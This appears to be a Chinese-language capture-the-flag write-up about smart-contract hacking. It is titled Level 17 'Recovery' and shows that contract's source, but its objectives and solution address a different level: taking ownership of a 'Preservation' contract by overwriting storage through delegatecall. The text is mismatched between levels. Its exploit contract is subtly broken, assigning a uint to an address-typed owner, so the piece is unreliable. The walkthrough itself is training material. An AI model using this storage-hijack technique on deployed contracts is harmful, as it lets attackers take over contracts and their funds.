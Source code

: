 # **Level 17 -- Recovery**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
`````` 
---
## ***Objectives***
* get the owner of the `preservation` contract
---
## ***Thought Process***
首先观察`preservation`合约,其中的数据存储结构总共占用了4个slot
``` solidity
    address public timeZone1Library;    // slot 0
    address public timeZone2Library;    // slot 1
    address public owner;               // slot 2
    uint storedTime;                    // slot 3
```
在构造函数中初始化了两个`timeZoneLibrary`的地址和owner, 此外还有两个方法`setFirstTime`和`setSecondTime`, 都是用了delegatecall去调用`LibraryContract`名为`setTime`的方法.

在`LibraryContract`中仅有`storedTime`一个参数，占用了slot 0.

`delegatecall`是一种低级函数调用，当合约A用`delegatecall`调用合约B的方法时，表示允许合约B修改A的对应存储，因此当调用`LibraryContract`中`setTime`时，B修改了A中的slot0，也就是`timeZone1Library`

综上所述，我们可以写一个修改了内容`setTime`恶意合约，把合约地址存储到slot0中，再调用`setFirstTime`调用恶意合约修改掉owner。


---
## ***Solution***
1.写一个恶意合约 然后部署
``` solidity
contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
 
  // set the time for timezone 1
  function setTime(uint _timeStamp) public {
        owner = _timeStamp;
  }

}
```
2. > await contract.setSecondTime(contractAddress)
3. > await contract.setFirstTime(owner.address)




